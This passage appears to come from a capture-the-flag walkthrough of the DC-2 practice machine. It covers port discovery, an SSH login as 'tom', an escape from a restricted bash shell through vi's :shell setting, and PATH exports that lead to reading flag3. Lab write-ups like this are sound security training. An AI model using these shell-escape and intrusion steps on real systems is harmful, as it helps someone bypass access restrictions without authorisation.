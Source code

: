 Looking through the pages of the site we found Flag2
Flag 2:
If you can't exploit WordPress and take a shortcut, there is another way.
Hope you found another entry point.

Looking for another open port we found :  7744.
 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# telnet 192.168.56.110 7744
Trying 192.168.56.110...
Connected to 192.168.56.110.
Escape character is '^]'.
SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u7

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Connecting through ssh

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh tom@192.168.56.110 -p 7744
tom@192.168.56.110's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Oct  3 02:04:52 2019 from 192.168.56.102
tom@DC-2:~$ id
-rbash: id: command not found
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin/*
/home/tom/usr/bin/less /home/tom/usr/bin/ls /home/tom/usr/bin/scp /home/tom/usr/bin/vi

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Escaping restricted shell with vi. Normal vi :  :!/bin/bash is not working.
Aflter looking at vi escape restricted shell at : https://gtfobins.github.io/#+shell

vi
:shell=/bin/bash
:shell

We are able to get a bash shell with restrictions.
Exporting SHELL , PATH

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
tom@DC-2:~$ id
bash: id: command not found
tom@DC-2:~$ export SHELL=/bin/bash:$SHELL
tom@DC-2:~$ export PATH=/usr/bin:$PATH
tom@DC-2:~$ export PATH=/bin:$PATH
tom@DC-2:~$ cat flag3.txt
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
